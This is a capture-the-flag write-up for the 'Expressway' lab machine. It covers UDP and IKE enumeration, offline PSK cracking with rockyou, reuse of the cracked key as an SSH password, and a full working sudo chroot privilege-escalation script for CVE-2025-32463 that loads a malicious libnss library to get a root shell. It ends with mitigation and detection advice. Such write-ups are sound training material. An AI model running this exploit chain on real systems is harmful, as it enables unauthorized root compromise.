

# Expressway 

#### 🏁 Summary of Attack Chain — **Expressway**

| Step | User / Access  | Technique Used                                                                   | Result                                                                                                                  |
| :--- | :------------- | :------------------------------------------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------- |
| 1    | (Local)        | Nmap TCP & UDP scanning (`nmap -sVC`, `nmap -sU --top-ports 100`)                | TCP showed only SSH; UDP exposed IKE/IPsec (UDP 500, 4500) and TFTP.                                                    |
| 2    | (Remote / IKE) | IKE enumeration (`ike-scan -M --aggressive`)                                     | Captured Aggressive-Mode handshake, including `ID=ike@expressway.htb` and a verification hash / context.                |
| 3    | (Local)        | Offline PSK cracking (`psk-crack` or `hashcat -m 530`) against the captured blob | PSK recovered (weak/human password from wordlist).                                                                      |
| 4    | ike            | Password reuse / credential use                                                  | Used cracked PSK as login credential (SSH / VPN) and obtained a shell as `ike` (user flag).                             |
| 5    | ike            | Local enumeration (`sudo --version`, system info)                                | Identified `sudo` version **1.9.17** — vulnerable to **CVE-2025-32463** (chroot/NSS abuse).                             |
| 6    | ike            | Craft PoC payload (malicious `libnss` shared object + chroot tree)               | Built `kai_ht.c` -> `libnss_/kai_ht.so.2` and prepared `pentest` chroot with `etc/nsswitch.conf` pointing to `/kai_ht`. |
| 7    | ike → root     | Exploit: abuse `sudo -R` chroot handling (PoC script)                            | `sudo -R pentest pentest` triggers the malicious library initializer, escalating to root (root shell).                  |
| 8    | root           | Post-exploit / flag retrieval                                                    | Read `root.txt` and completed full compromise.                                                                          |


> Quick summary

> TCP looked quiet (only SSH), UDP revealed IKE/IPsec. IKE Aggressive Mode + PSK → offline crackable hash → PSK reused as SSH credential. From user shell, sudo was vulnerable (CVE-2025-32463) and a chroot-based PoC escalated to root.

---

# Recon

## TCP scan (nmap)

```
nmap -sVC 10.10.11.87

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-21 00:22 CEST

Nmap scan report for 10.10.11.87
Host is up (0.033s latency).

Not shown: 999 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Only SSH on TCP — don’t stop here.

---

## UDP scan (nmap — top 100)

```
nmap -sU --top-ports 100 10.10.11.87

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-21 00:23 CEST

Nmap scan report for 10.10.11.87
Host is up (0.15s latency).

Not shown: 96 closed udp ports (port-unreach)

PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp
4500/udp open|filtered nat-t-ike
```

**Notes:** UDP/500 and 4500 indicate IKE/IPsec. UDP/69 (TFTP) might host configs or backups — keep in mind for later.

---

## IKE enumeration (ike-scan)

```
ike-scan -M 10.10.11.87

10.10.11.87    Main Mode Handshake returned
        HDR=(CKY-R=04ec1a9db3726275)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
```

Aggressive mode:

```
ike-scan -M --aggressive 10.10.11.87

10.10.11.87    Aggressive Mode Handshake returned
        HDR=(CKY-R=261e81de0f8d9a62)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)
```

**Why this matters**

* Aggressive Mode leaks enough (ID + Hash + params) to compute a verification hash that depends on the PSK.
* With the captured handshake + correct ID, you can brute-force the PSK offline.

---

# Offline PSK cracking

1. Dump the Aggressive-mode blob (include `--id=ike@expressway.htb`) with `ike-scan`.
2. Use `psk-crack` or `hashcat` (IKE Aggressive Mode PSK — hashcat mode **530**) against the blob.
3. Wordlists + rules (e.g., `rockyou + best64`) are effective against human PSKs.

Example run (from notes):

```
ike-scan -M --aggressive --id=ike@expressway.htb 10.10.11.87 --pskcrack=psk.txt
psk-crack -d /usr/share/wordlists/rockyou.txt psk.txt
# result: key "freak<PASS>" matches SHA1 hash ...
```


**Operational tip:** If the PSK cracks, try it against likely usernames found during enumeration (e.g., `ike`); password reuse is common.

---

# Achieve user shell

* Use cracked PSK as SSH credential (or as VPN credential to get further access).
* Retrieve `user` flag and system data.


---

# Privilege escalation — local (Expressway)

## Sudo info

```
ike@expressway:~$ sudo --version
Sudo version 1.9.17
```



**Vulnerability:** Sudo 1.9.17 is vulnerable to **CVE-2025-32463** (chroot-related privilege escalation). The vulnerable behavior allows abusing `sudo -R` chroot handling to load a malicious `libnss` style shared object that runs code as root.

---

## Exploit overview (PoC summary)

* Build a malicious shared object with an `-init` function that sets UID/GID to 0 and spawns a shell.
* Create a fake `pentest` chroot tree with a custom `etc/nsswitch.conf` pointing to the malicious library (`/kai_ht`) and a placed `libnss_/kai_ht.so.2`.
* Invoke `sudo -R pentest pentest` to trigger the chroot handling path and execute the initializer in the shared object as root.
* Cleanup temporary files.

**High-level steps**

1. Prepare temp staging directory.
2. Create `kai_ht.c` with initializer that sets UID/GID → 0 and execs `/bin/bash`.
3. Build `libnss_/kai_ht.so.2` (shared, `-fPIC`, `-Wl,-init,woot`).
4. Provide `pentest/etc/nsswitch.conf` that references `/kai_ht`.
5. Run `sudo -R pentest pentest`. If successful, get root shell and `cat /root/root.txt`.

---

## PoC script (`exp.sh`)

```bash
#!/bin/bash

# CVE-2025-32463 PoC - Sudo Chroot Privilege Escalation
# Based on research by Rich Mirch @ Stratascale Cyber Research Unit

STAGE=$(mktemp -d /tmp/pentest.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > kai_ht.c<<'CEOF'
#include <stdlib.h>
#include <unistd.h>

void woot(void) {
    setreuid(0,0);
    setregid(0,0);
    chdir("/");
    execl("/bin/bash", "/bin/bash", NULL);
}
CEOF

mkdir -p pentest/etc libnss_
echo "passwd: /kai_ht" > pentest/etc/nsswitch.conf
cp /etc/group pentest/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/kai_ht.so.2 kai_ht.c

echo "[*] Exploiting CVE-2025-32463..."
echo "[*] Attempting privilege escalation..."
sudo -R pentest pentest

# Cleanup
rm -rf ${STAGE?}
```

**Usage**

```bash
chmod +x exp.sh
./exp.sh
```


# If successful:
```
cat /root/root.txt
```


---

# TL;DR & Takeaways

* **Don’t stop at TCP.** UDP can expose services (IKE/TFTP/DHCP) that lead to full compromise.
* **IKEv1 Aggressive Mode + PSK = offline cracking opportunity.** Capture the handshake with `ike-scan --aggressive --id=<id>` and crack it offline (psk-crack or hashcat m=530).
* **Password reuse is real.** Cracked PSKs often work as remote user credentials.
* **Check local sudo versions** — old/vulnerable sudo builds (like 1.9.17 here) can be escalated with chroot/NSS abuse (CVE-2025-32463).
* **Blue-team mitigation:** disable IKEv1 Aggressive Mode; use IKEv2 w/ certs; use long random PSKs; avoid PSK reuse; upgrade sudo and audit chroot handling; monitor `sudo -R`/chroot use and unexpected shared-library loads.

---

# Suggested mitigations & detection (brief)

**Mitigations**

* Use IKEv2 with certificate authentication instead of IKEv1 Aggressive + PSK.
* Enforce long, high-entropy PSKs and rotate them; never reuse VPN PSKs as user passwords.
* Patch sudo to a version that fixes CVE-2025-32463; apply vendor patches.
* Harden TFTP/other UDP services or disable if unused.

**Detection**

* Monitor for unexpected `sudo -R` usage or `sudo` invocations that reference chroot paths.
* Alert on unexpected creation of `libnss_*` libraries in user-writable directories.
* Monitor for high volumes of IKE Aggressive-mode attempts and Aggressive-mode handshakes.

---

